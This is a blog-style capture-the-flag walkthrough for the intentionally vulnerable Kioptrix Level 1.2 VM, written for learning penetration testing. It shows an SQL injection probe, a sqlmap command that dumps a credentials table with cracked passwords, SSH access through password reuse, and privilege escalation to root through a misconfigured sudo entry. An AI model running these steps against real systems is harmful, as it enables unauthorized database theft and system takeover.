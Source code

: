 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.2 Walkthrough"
date:   2023-12-20 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1.2 Walkthrough, CTF solution for Kioptrix Level 1.2.'
categories: [walkthroughs]
tags:
- Kioptrix
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.7p1 Debian 8ubuntu1.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

Enumeration of the website discovered it was likely vulnerable to an [SQL Injection](/penetration-testing/web-app/sql-injection/), entering <code>id='</code> rendered the following MySQL error:

![SQL Error](/img/blog/kioptrix/sql-error.png)


SQLMap was used to successfully dump the databases and crack the hashes:

{% highlight bash %}

[root:~]# sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+

{% endhighlight %}

## Non privileged shell

Due to password reuse both accounts were able to ssh, dreg had a limited shell.

## Local Enumeration

Local enumeration of loneferrets home dir disclosed:

{% highlight bash %}
loneferret@Kioptrix3:~$ cat CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
{% endhighlight %}

## Privilege Escalation

<code>sudo ht</code> rendered a file explorer, the user <code>loneferret</code> was added to the sudoers group, making privilege escalation trivial.  

![sudo ht](/img/blog/kioptrix/sudo-ht.png)

{% highlight bash %}

loneferret@Kioptrix3:~$ sudo -s
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~#

{% endhighlight %}
